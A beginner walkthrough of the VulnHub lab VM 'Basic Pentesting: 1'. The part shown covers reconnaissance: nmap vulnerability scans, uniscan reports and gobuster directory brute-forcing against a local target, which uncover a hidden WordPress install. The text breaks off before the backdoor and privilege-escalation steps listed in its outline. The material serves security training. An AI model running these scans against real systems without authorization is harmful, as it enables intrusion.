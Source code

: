 <H1>Basic Pentesting: 1</H1>
<p></p>
<H2>What is it?</H2>
<p></p>
Basic Pentesting: 1 is a vulnerable VM that can be downloaded from <a href="https://www.vulnhub.com/entry/basic-pentesting-1,216/" rel="nofollow">VulnHub</a> so that you can host it locally. (To learn how to host this VM locally reference <a href="https://github.com/Shadow-Admins/Cyber_Club/tree/main/Starting_Point/VulnHub" rel="nofollow">here</a>)
<p></p>
Basic Pentesting: 1 is an easy to intermediate box, it contains 1 flags (root flag) and has different ways of completing the box to achieve the same outcome. Doing this box you will cover the following areas:
<p></p>

```

<H5>Enumeration</H5>
- Network Scanning (Nmap)
<H5>Web Recon</H5>
- Recon (Nikto,gobuster,dirb,uniscan)
<br>
- Web directory traversal/file access
<H5>Breaking into a badly configured login page</H5>
- Setting up a dictionary file for username and password enumeration/cracking
<br>
- WordPress password cracking (wpscan,hydra)
<H5>Generating Backdoors</H5>
- Generate PHP Backdoor (Msfvenom)
<br>
- Using pre-configured php backdoor
<br>
- Upload and execute a backdoor
<H5>Catching the reverse conection on your host</H5>
- Reverse connection (Metasploit)
<H5>Identifying and cracking a hash</H5>
- Getting a hash and decrypting it
<H5>Getting a TTY shell</H5>
- Import python one-liner for proper TTY shell
<H5>Privilege Escalation</H5>
- One liner, linPEAS, linux-exploit-suggester-2
<br>
- binary, dirtycow

```


<p></p>
All flags have the following flag format:
<p></p>
key-1-of-3.txt
<br>
And when opened look like a random string of characters eg. ABCDENOASFINEAUINFAOPDSNFRUENPANFD
<p></p>
As stated before one flag is located on the website itself, one is located in the user folder and the final is located in the root folder.
<p></p>
I have written this write up as very beginner oriented with step-by-step walkthroughs to each stage of the process have a read you might learn something.
<p></p>
<H2>Walkthrough</H2>
<p></p>
<details>
    <summary></summary>
<p></p>
The first thing we need to do is identify the target VM on our network, (this is the mothod if you followed my guide for hosting the VM <a href="https://github.com/Shadow-Admins/Cyber_Club/tree/main/Starting_Point/VulnHub" rel="nofollow">here</a>)
<p></p>
In order to do that we need to identify what our Attacking VMs network adapter. By using the following command:
<p></p>

```
sudo ifconfig
```

<p></p>
Which outputs:
<p></p>

```
❯ sudo ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.191.129  netmask 255.255.255.0  broadcast 192.168.191.255
        inet6 fe80::11ec:b5d:f22:834f  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:df:18:d9  txqueuelen 1000  (Ethernet)
        RX packets 27524  bytes 26521537 (25.2 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 17283  bytes 2658776 (2.5 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.125.134  netmask 255.255.255.0  broadcast 192.168.125.255
        inet6 fe80::744b:c7cf:2382:75d3  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:df:18:e3  txqueuelen 1000  (Ethernet)
        RX packets 136  bytes 16130 (15.7 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 115  bytes 9578 (9.3 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 43920  bytes 8862323 (8.4 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 43920  bytes 8862323 (8.4 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

<p></p>
Here we can see the eth1 adapter, this is the adapter we added to the Host-only network. We will use the ip address given to this adapter to discover the Target VM on our network. We will use the following command:
<p></p>

```
nmap -e eth1 -T5 192.168.125.0/24
```

<p></p>
Looking at this command we used the <kbd>-e</kbd> flag to let nmap know which interface we want to use for the scan, the <kbd>-T5</kbd> flag tells nmap to do the fastest scan possible and the network we scanned against was the network we identified when we ran <kbd>ifconfig</kbd>.
<br>
This command returns:
<p></p>

```
❯ nmap -e eth1 -T5 192.168.125.0/24
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-11 12:40 AEST
Nmap scan report for 192.168.125.134
Host is up (0.048s latency).
Not shown: 999 closed ports
PORT    STATE SERVICE
111/tcp open  rpcbind

Nmap scan report for 192.168.125.135
Host is up (0.048s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Nmap done: 256 IP addresses (2 hosts up) scanned in 19.50 seconds
```

<p></p>
Looking through the results we can identify our own ip address <kbd>192.168.125.134</kbd> and one other ip <kbd>192.168.125.135</kbd> we can therefore determine that the second ip is our target VM. Time for further enumeration with nmap. This time the command will look like this:
<p></p>

```
sudo nmap -e eth1 -A -vvv --script vuln -oN nmap.txt 192.168.125.135
```

<p></p>
For this command, we use the <kbd>-e</kbd> flag to direct nmap to our desired network interface, <kbd>-A</kbd> to run all scripts, <kbd>-vvv</kbd> to give very verbose output, <kbd>--script vuln</kbd> to run the vulnerability script against the machine, this is extremely helpful and does a lot of enumeration for us which we can see in the output, <kbd>-oN nmap.txt</kbd> outputs the scan to a text file se we can refer to it later and finally the ip address we wish to scan.
This command outputs the following:
<p></p>

```
# Nmap 7.91 scan initiated Sun Jul 11 12:44:35 2021 as: nmap -e eth1 -A -vvv --script vuln -oN nmap.txt 192.168.125.135
Nmap scan report for 192.168.125.135
Host is up, received arp-response (0.0045s latency).
Scanned at 2021-07-11 12:44:45 AEST for 458s
Not shown: 997 closed ports
Reason: 997 resets
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 64 ProFTPD 1.3.3c
|_sslv2-drown: 
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.18 ((Ubuntu))
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-enum: 
|_  /secret/: Potentially interesting folder
|_http-jsonp-detection: Couldn't find any JSONP endpoints.
|_http-litespeed-sourcecode-download: Request with null byte did not work. This web server might not be vulnerable
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-wordpress-users: [Error] Wordpress installation was not found. We couldn't find wp-login.php
MAC Address: 00:0C:29:FB:93:05 (VMware)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=7/11%OT=21%CT=1%CU=34941%PV=Y%DS=1%DC=D%G=Y%M=000C29%T
OS:M=60EA5CE7%P=x86_64-pc-linux-gnu)SEQ(SP=108%GCD=1%ISR=109%TI=Z%CI=I%II=I
OS:%TS=8)OPS(O1=M5B4ST11NW7%O2=M5B4ST11NW7%O3=M5B4NNT11NW7%O4=M5B4ST11NW7%O
OS:5=M5B4ST11NW7%O6=M5B4ST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6
OS:=7120)ECN(R=Y%DF=Y%T=40%W=7210%O=M5B4NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O
OS:%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=
OS:0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%
OS:S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(
OS:R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=
OS:N%T=40%CD=S)

Uptime guess: 161.288 days (since Sun Jan 31 06:58:16 2021)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=264 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   4.52 ms 192.168.125.135

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jul 11 12:52:23 2021 -- 1 IP address (1 host up) scanned in 468.00 seconds
```

<p></p>
What can we pull from this scan? We can see there are 3 ports open (port 21 running ftp, port 22 running ssh and port 80 running http) We can also see that the vuln script has enumerated a directory for us '/secret/'.
<p></p>
After doing these kinds of boxes a few times you will know that port 22 is rarely a way into the box so for now we will concentrate on the two other ports (21 and 80). (I am going to go over the process of gaining access via port 80 as this is the more difficult way to gain entry, I will cover getting in through port 21 after)
<p></p>
Prior to looking at these individually I will continue enumeration using some different tools. The first will be uniscan (one of my favourite tools).
<p></p>
Uniscan is a tool that comes prepackaged with both Parrot and kali, it has a simple GUI and is easy to use, you can find it here on Parrot.
<p></p>
<div align="center">
<img src="https://github.com/Shadow-Admins/Cyber_Club/blob/5b31f29ec8f6c04504fa101d14a1eb574bd9e3e5/Starting_Point/VulnHub/BasicPentesting1/images/uniscanloc.png"><br>
</div>
<p></p>
To use uniscan you enter the ip address you wish to scan and then check the options you want to use, I used the following options:
<br>
- Check Directory
<br>
- Check Files
<br>
- Check /robots.txt
<br>
- Dynamic tests
<br>
- Static tests
<br>
- Web Fingerprint
<br>
- Server Fingerprint
<p></p>
Uniscan creates a .html report in /usr/share/uniscan/reports/IPADDRESS.html
<p></p>
You can view this report by running:
<p></p>

```
firefox /usr/share/uniscan/reports/192.168.125.135 &
```

<p></p>
The report information (which you can view by clicking the 'open log file' button) is:

```
####################################
# Uniscan project                  #
# http://uniscan.sourceforge.net/  #
####################################
V. 6.3


Scan date: 11-7-2021 13:30:3
===================================================================================================
| Domain: http://192.168.125.135/
| Server: Apache/2.4.18 (Ubuntu)
| IP: 192.168.125.135
===================================================================================================
===================================================================================================
| Looking for Drupal plugins/modules
| 
| GET,HEAD,POST,OPTIONS
===================================================================================================
===================================================================================================
| WEB SERVICES
| 
===================================================================================================
| FAVICON.ICO
| 
===================================================================================================
| ERROR INFORMATION
| 
|  404 Not Found Not Found The requested URL /F&gt;]iB(j;4AIa{Nn[aR3 was not found on this server. Apache/2.4.18 (Ubuntu) Server at 192.168.125.135 Port 80 
|  404 Not Found Not Found The requested URL /L`8WUCxG0Z&gt;}b'4^^Qa6 was not found on this server. Apache/2.4.18 (Ubuntu) Server at 192.168.125.135 Port 80 
===================================================================================================
| TYPE ERROR
| 
===================================================================================================
| SERVER MOBILE
| 
===================================================================================================
| LANGUAGE
| 
===================================================================================================
| INTERESTING STRINGS IN HTML
| 
===================================================================================================
| WHOIS
| 
| 
| 
| #
| 
| # ARIN WHOIS data and services are subject to the Terms of Use
| 
| # available at: https://www.arin.net/resources/registry/whois/tou/
| 
| #
| 
| # If you see inaccuracies in the results, please report at
| 
| # https://www.arin.net/resources/registry/whois/inaccuracy_reporting/
| 
| #
| 
| # Copyright 1997-2021, American Registry for Internet Numbers, Ltd.
| 
| #
| 
| 
| 
| 
| 
| NetRange:       192.168.0.0 - 192.168.255.255
| 
| CIDR:           192.168.0.0/16
| 
| NetName:        PRIVATE-ADDRESS-CBLK-RFC1918-IANA-RESERVED
| 
| NetHandle:      NET-192-168-0-0-1
| 
| Parent:         NET192 (NET-192-0-0-0-0)
| 
| NetType:        IANA Special Use
| 
| OriginAS:       
| 
| Organization:   Internet Assigned Numbers Authority (IANA)
| 
| RegDate:        1994-03-15
| 
| Updated:        2013-08-30
| 
| Comment:        These addresses are in use by many millions of independently operated networks, which might be as small as a single computer connected to a home gateway, and are automatically configured in hundreds of millions of devices.  They are only intended for use within a private context  and traffic that needs to cross the Internet will need to use a different, unique address.
| 
| Comment:        
| 
| Comment:        These addresses can be used by anyone without any need to coordinate with IANA or an Internet registry.  The traffic from these addresses does not come from ICANN or IANA.  We are not the source of activity you may see on logs or in e-mail records.  Please refer to http://www.iana.org/abuse/answers
| 
| Comment:        
| 
| Comment:        These addresses were assigned by the IETF, the organization that develops Internet protocols, in the Best Current Practice document, RFC 1918 which can be found at:
| 
| Comment:        http://datatracker.ietf.org/doc/rfc1918
| 
| Ref:            https://rdap.arin.net/registry/ip/192.168.0.0
| 
| 
| 
| 
| 
| 
| 
| OrgName:        Internet Assigned Numbers Authority
| 
| OrgId:          IANA
| 
| Address:        12025 Waterfront Drive
| 
| Address:        Suite 300
| 
| City:           Los Angeles
| 
| StateProv:      CA
| 
| PostalCode:     90292
| 
| Country:        US
| 
| RegDate:        
| 
| Updated:        2012-08-31
| 
| Ref:            https://rdap.arin.net/registry/entity/IANA
| 
| 
| 
| 
| 
| OrgAbuseHandle: IANA-IP-ARIN
| 
| OrgAbuseName:   ICANN
| 
| OrgAbusePhone:  +1-310-301-5820 
| 
| OrgAbuseEmail:  abuse@iana.org
| 
| OrgAbuseRef:    https://rdap.arin.net/registry/entity/IANA-IP-ARIN
| 
| 
| 
| OrgTechHandle: IANA-IP-ARIN
| 
| OrgTechName:   ICANN
| 
| OrgTechPhone:  +1-310-301-5820 
| 
| OrgTechEmail:  abuse@iana.org
| 
| OrgTechRef:    https://rdap.arin.net/registry/entity/IANA-IP-ARIN
| 
| 
| 
| 
| 
| #
| 
| # ARIN WHOIS data and services are subject to the Terms of Use
| 
| # available at: https://www.arin.net/resources/registry/whois/tou/
| 
| #
| 
| # If you see inaccuracies in the results, please report at
| 
| # https://www.arin.net/resources/registry/whois/inaccuracy_reporting/
| 
| #
| 
| # Copyright 1997-2021, American Registry for Internet Numbers, Ltd.
| 
| #
| 
| 
| 
===================================================================================================
| BANNER GRABBING: 
===================================================================================================
===================================================================================================
| PING
| 
| PING 192.168.125.135 (192.168.125.135) 56(84) bytes of data.
| 64 bytes from 192.168.125.135: icmp_seq=1 ttl=64 time=0.399 ms
| 64 bytes from 192.168.125.135: icmp_seq=2 ttl=64 time=0.614 ms
| 64 bytes from 192.168.125.135: icmp_seq=3 ttl=64 time=0.519 ms
| 64 bytes from 192.168.125.135: icmp_seq=4 ttl=64 time=0.488 ms
| 
| --- 192.168.125.135 ping statistics ---
| 4 packets transmitted, 4 received, 0% packet loss, time 3079ms
| rtt min/avg/max/mdev = 0.399/0.505/0.614/0.076 ms
===================================================================================================
| TRACEROUTE
| 
| traceroute to 192.168.125.135 (192.168.125.135), 30 hops max, 60 byte packets
|  1  192.168.125.135 (192.168.125.135)  23.945 ms  24.235 ms  24.540 ms
===================================================================================================
| NSLOOKUP
| 
| Server:		192.168.191.2
| Address:	192.168.191.2#53
| 
| ** server can't find 135.125.168.192.in-addr.arpa: NXDOMAIN
===================================================================================================
| NMAP
| 
| Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-11 13:30 AEST
| NSE: Loaded 153 scripts for scanning.
| NSE: Script Pre-scanning.
| Initiating NSE at 13:30
| Completed NSE at 13:30, 0.00s elapsed
| Initiating NSE at 13:30
| Completed NSE at 13:30, 0.00s elapsed
| Initiating NSE at 13:30
| Completed NSE at 13:30, 0.00s elapsed
| Initiating ARP Ping Scan at 13:30
| Scanning 192.168.125.135 [1 port]
| Completed ARP Ping Scan at 13:30, 0.06s elapsed (1 total hosts)
| Initiating Parallel DNS resolution of 1 host. at 13:30
| Completed Parallel DNS resolution of 1 host. at 13:30, 6.51s elapsed
| Initiating SYN Stealth Scan at 13:30
| Scanning 192.168.125.135 [1000 ports]
| Discovered open port 21/tcp on 192.168.125.135
| Discovered open port 80/tcp on 192.168.125.135
| Discovered open port 22/tcp on 192.168.125.135
| Completed SYN Stealth Scan at 13:30, 1.24s elapsed (1000 total ports)
| Initiating Service scan at 13:30
| Scanning 3 services on 192.168.125.135
| Completed Service scan at 13:30, 10.02s elapsed (3 services on 1 host)
| Initiating OS detection (try #1) against 192.168.125.135
| NSE: Script scanning 192.168.125.135.
| Initiating NSE at 13:30
| Completed NSE at 13:30, 10.05s elapsed
| Initiating NSE at 13:30
| Completed NSE at 13:31, 28.07s elapsed
| Initiating NSE at 13:31
| Completed NSE at 13:31, 0.00s elapsed
| Nmap scan report for 192.168.125.135
| Host is up (0.0070s latency).
| Not shown: 997 closed ports
| PORT   STATE SERVICE VERSION
| 21/tcp open  ftp     ProFTPD 1.3.3c
| 22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| | ssh-hostkey: 
| |   2048 d6:01:90:39:2d:8f:46:fb:03:86:73:b3:3c:54:7e:54 (RSA)
| |   256 f1:f3:c0:dd:ba:a4:85:f7:13:9a:da:3a:bb:4d:93:04 (ECDSA)
| |_  256 12:e2:98:d2:a3:e7:36:4f:be:6b:ce:36:6b:7e:0d:9e (ED25519)
| 80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| | http-methods: 
| |_  Supported Methods: GET HEAD POST OPTIONS
| |_http-server-header: Apache/2.4.18 (Ubuntu)
| |_http-title: Site doesn't have a title (text/html).
| MAC Address: 00:0C:29:FB:93:05 (VMware)
| Device type: general purpose
| Running: Linux 3.X|4.X
| OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
| OS details: Linux 3.2 - 4.9
| Uptime guess: 161.962 days (since Sat Jan 30 15:25:22 2021)
| Network Distance: 1 hop
| TCP Sequence Prediction: Difficulty=262 (Good luck!)
| IP ID Sequence Generation: All zeros
| Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
| 
| TRACEROUTE
| HOP RTT     ADDRESS
| 1   6.97 ms 192.168.125.135
| 
| NSE: Script Post-scanning.
| Initiating NSE at 13:31
| Completed NSE at 13:31, 0.00s elapsed
| Initiating NSE at 13:31
| Completed NSE at 13:31, 0.00s elapsed
| Initiating NSE at 13:31
| Completed NSE at 13:31, 0.00s elapsed
| Read data files from: /usr/bin/../share/nmap
| OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
| Nmap done: 1 IP address (1 host up) scanned in 57.92 seconds
|            Raw packets sent: 1023 (45.806KB) | Rcvd: 1015 (41.290KB)
===================================================================================================
|
| Directory check:
| [+] CODE: 200 URL: http://192.168.125.135/secret/
===================================================================================================
|                                                                                                   
| File check:
| [+] CODE: 200 URL: http://192.168.125.135/index.html
===================================================================================================
|
| Check robots.txt:
|
| Check sitemap.xml:
===================================================================================================
|
| Crawler Started:
| Plugin name: FCKeditor upload test v.1 Loaded.
| Plugin name: Timthumb <= 1.32 vulnerability v.1 Loaded.
| Plugin name: Upload Form Detect v.1.1 Loaded.
| Plugin name: Code Disclosure v.1.1 Loaded.
| Plugin name: E-mail Detection v.1.1 Loaded.
| Plugin name: External Host Detect v.1.2 Loaded.
| Plugin name: phpinfo() Disclosure v.1 Loaded.
| Plugin name: Web Backdoor Disclosure v.1.1 Loaded.
| [+] Crawling finished, 7 URL's found!
|
| FCKeditor File Upload:
|
| Timthumb:
|
| File Upload Forms:
|
| Source Code Disclosure:
|
| E-mails:
|
| External hosts:
| [+] External Host Found: http://vtcsec
| [+] External Host Found: http://gmpg.org
| [+] External Host Found: https://wordpress.org
|
| PHPinfo() Disclosure:
|
| Web Backdoors:
|
| Ignored Files: 
===================================================================================================
| Dynamic tests:
| Plugin name: Learning New Directories v.1.2 Loaded.
| Plugin name: FCKedior tests v.1.1 Loaded.
| Plugin name: Timthumb <= 1.32 vulnerability v.1 Loaded.
| Plugin name: Find Backup Files v.1.2 Loaded.
| Plugin name: Blind SQL-injection tests v.1.3 Loaded.
| Plugin name: Local File Include tests v.1.1 Loaded.
| Plugin name: PHP CGI Argument Injection v.1.1 Loaded.
| Plugin name: Remote Command Execution tests v.1.1 Loaded.
| Plugin name: Remote File Include tests v.1.2 Loaded.
| Plugin name: SQL-injection tests v.1.2 Loaded.
| Plugin name: Cross-Site Scripting tests v.1.2 Loaded.
| Plugin name: Web Shell Finder v.1.3 Loaded.
| [+] 0 New directories added
|                                                                                                   
|                                                                                                   
| FCKeditor tests:
|                                                                                                   
|                                                                                                   
| Timthumb < 1.33 vulnerability:
|                                                                                                   
|                                                                                                   
| Backup Files:
|                                                                                                   
|                                                                                                   
| Blind SQL Injection:
|                                                                                                   
|                                                                                                   
| Local File Include:
|                                                                                                   
|                                                                                                   
| PHP CGI Argument Injection:
|                                                                                                   
|                                                                                                   
| Remote Command Execution:
|                                                                                                   
|                                                                                                   
| Remote File Include:
|                                                                                                   
|                                                                                                   
| SQL Injection:
|                                                                                                   
|                                                                                                   
| Cross-Site Scripting (XSS):
|                                                                                                   
|                                                                                                   
| Web Shell Finder:
===================================================================================================
| Static tests:
| Plugin name: Local File Include tests v.1.1 Loaded.
| Plugin name: Remote Command Execution tests v.1.1 Loaded.
| Plugin name: Remote File Include tests v.1.1 Loaded.
|                                                                                                   
|                                                                                                   
| Local File Include:
|                                                                                                   
|                                                                                                   
| Remote Command Execution:
|                                                                                                   
|                                                                                                   
| Remote File Include:
===================================================================================================
Scan end date: 11-7-2021 13:31:41



HTML report saved in: report/192.168.125.135.html
```

<p></p>
This provided us with a bit more information. It has enumerated a file for us and found 3 external hosts, it's interesting there is a reference to wordpress.
<p></p>

```
===================================================================================================
|
| Directory check:
| [+] CODE: 200 URL: http://192.168.125.135/secret/
===================================================================================================
|                                                                                                   
| File check:
| [+] CODE: 200 URL: http://192.168.125.135/index.html
===================================================================================================
|
| External hosts:
| [+] External Host Found: http://vtcsec
| [+] External Host Found: http://gmpg.org
| [+] External Host Found: https://wordpress.org
```

<p></p>
We will save this information for later, lets continue enumerating.
<p></p>
We will now use gobuster (gobuster -h displays the helpfile) to see if we can pick up anymore directories or files belonging to this website. The command we will use is:
<p></p>

```
gobuster dir -u http://192.168.125.135 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-large-files.txt
```

<p></p>
In this command u can see we use the <kbd>dir</kbd> command followed by the <kbd>-u</kbd> command to point gobuster at the url, we then use the <kbd>-w</kbd> command to point gobuster to our desired wordlist. Here you can see I have used the raft-large-files.txt wordlist from <a href="https://github.com/danielmiessler/SecLists" rel="nofollow">SecLists</a>. (I strongly recommend downloading this git it contains tons of wordlists that can be used for multiple things)
<p></p>
This command outputs this:
<p></p>

```
❯ gobuster dir -u http://192.168.125.135 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-large-files.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.125.135
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-large-files.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/07/11 13:44:28 Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 177]
/.htaccess            (Status: 403) [Size: 299]
/.                    (Status: 200) [Size: 177]
/.html                (Status: 403) [Size: 295]
/.php                 (Status: 403) [Size: 294]
/.htpasswd            (Status: 403) [Size: 299]
/.htm                 (Status: 403) [Size: 294]
/.htpasswds           (Status: 403) [Size: 300]
/.htgroup             (Status: 403) [Size: 298]
/wp-forum.phps        (Status: 403) [Size: 303]
/.htaccess.bak        (Status: 403) [Size: 303]
/.htuser              (Status: 403) [Size: 297]
/.htc                 (Status: 403) [Size: 294]
/.ht                  (Status: 403) [Size: 293]
/.htaccess.old        (Status: 403) [Size: 303]
/.htacess             (Status: 403) [Size: 298]
Progress: 25258 / 37043 (68.19%)              [ERROR] 2021/07/11 13:45:10 [!] parse "http://192.168.125.135/directory\t\te.g.": net/url: invalid control character in URL
                                               
===============================================================
2021/07/11 13:45:36 Finished
===============================================================
```

<p></p>
Interesting another reference to wordpress, lets re-run gobuster but include the '/secret/' directory in the url. The command looks like this:
<p></p>

```
gobuster dir -u http://192.168.125.135/secret/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-large-files.txt
```

<p></p>
Which outputs:
<p></p>

```
❯ gobuster dir -u http://192.168.125.135/secret/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-large-files.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.125.135/secret/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-large-files.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/07/11 13:47:15 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 306]
/license.txt          (Status: 200) [Size: 19935]
/readme.html          (Status: 200) [Size: 7413] 
/wp-login.php         (Status: 200) [Size: 2261] 
/index.php            (Status: 301) [Size: 0] [--> http://192.168.125.135/secret/]
/wp-mail.php          (Status: 403) [Size: 2768]                                  
/wp-cron.php          (Status: 200) [Size: 0]                                     
/wp-settings.php      (Status: 500) [Size: 0]                                     
/wp-config.php        (Status: 200) [Size: 0]                                     
/wp-blog-header.php   (Status: 200) [Size: 0]                                     
/.html                (Status: 403) [Size: 302]                                   
/wp-links-opml.php    (Status: 200) [Size: 222]                                   
/.                    (Status: 301) [Size: 0] [--> http://192.168.125.135/secret/]
/wp-trackback.php     (Status: 200) [Size: 135]                                   
/xmlrpc.php           (Status: 405) [Size: 42]                                    
/.php                 (Status: 403) [Size: 301]                                   
/wp-load.php          (Status: 200) [Size: 0]                                     
/wp-signup.php        (Status: 302) [Size: 0] [--> http://vtcsec/secret/wp-login.php?action=register]
/.htpasswd            (Status: 403) [Size: 306]                                                      
/wp-activate.php      (Status: 302) [Size: 0] [--> http://vtcsec/secret/wp-login.php?action=register]
/.htm                 (Status: 403) [Size: 301]                                                      
/.htpasswds           (Status: 403) [Size: 307]                                                      
/.htgroup             (Status: 403) [Size: 305]                                                      
/wp-forum.phps        (Status: 403) [Size: 310]                                                      
/.htaccess.bak        (Status: 403) [Size: 310]                                                      
/.htuser              (Status: 403) [Size: 304]                                                      
/.ht                  (Status: 403) [Size: 300]                                                      
/.htc                 (Status: 403) [Size: 301]                                                      
/.htaccess.old        (Status: 403) [Size: 310]                                                      
/.htacess             (Status: 403) [Size: 305]                                                      
Progress: 25138 / 37043 (67.86%)                                                                    [ERROR] 2021/07/11 13:47:56 [!] parse "http://192.168.125.135/secret/directory\t\te.g.": net/url: invalid control character in URL
                                                                                                     
===============================================================
2021/07/11 13:48:26 Finished
===============================================================
```

<p></p>
Jackpot, we found the wordpress motherload we will definitely be targeting this as our way into the machine. If we re-run uniscan in the same way we re-ran gobuster we find some more information. Bellow is the output from adding '/secret/' to the end of the ip in uniscan.
<p></p>

```
####################################
# Uniscan project                  #
# http://uniscan.sourceforge.net/  #
####################################
V. 6.3


Scan date: 11-7-2021 13:52:7
===================================================================================================
| Domain: http://192.168.125.135/secret/
| Server: Apache/2.4.18 (Ubuntu)
| IP: 192.168.125.135
===================================================================================================
===================================================================================================
| Looking for Drupal plugins/modules
| 
| GET,HEAD,POST,OPTIONS
===================================================================================================
===================================================================================================
| WEB SERVICES
| 
===================================================================================================
| FAVICON.ICO
| 
===================================================================================================
| ERROR INFORMATION
| 
|  404 Not Found Not Found The requested URL /vcz16&quot;=ci$ee:Qj^}Jl was not found on this server. Apache/2.4.18 (Ubuntu) Server at 192.168.125.135 Port 80 
|  404 Not Found Not Found The requested URL /IIdO6.J$y4|!:fT|M;b&gt; was not found on this server. Apache/2.4.18 (Ubuntu) Server at 192.168.125.135 Port 80 
===================================================================================================
| TYPE ERROR
| 
===================================================================================================
| SERVER MOBILE
| 
===================================================================================================
| LANGUAGE
| 
| lang="en-US"
===================================================================================================
| INTERESTING STRINGS IN HTML
| 
| a href="http://vtcsec/secret/wp-login.php">Log in
===================================================================================================
| WHOIS
| 
| 
| 
| #
| 
| # ARIN WHOIS data and services are subject to the Terms of Use
| 
| # available at: https://www.arin.net/resources/registry/whois/tou/
| 
| #
| 
| # If you see inaccuracies in the results, please report at
| 
| # https://www.arin.net/resources/registry/whois/inaccuracy_reporting/
| 
| #
| 
| # Copyright 1997-2021, American Registry for Internet Numbers, Ltd.
| 
| #
| 
| 
| 
| 
| 
| NetRange:       192.168.0.0 - 192.168.255.255
| 
| CIDR:           192.168.0.0/16
| 
| NetName:        PRIVATE-ADDRESS-CBLK-RFC1918-IANA-RESERVED
| 
| NetHandle:      NET-192-168-0-0-1
| 
| Parent:         NET192 (NET-192-0-0-0-0)
| 
| NetType:        IANA Special Use
| 
| OriginAS:       
| 
| Organization:   Internet Assigned Numbers Authority (IANA)
| 
| RegDate:        1994-03-15
| 
| Updated:        2013-08-30
| 
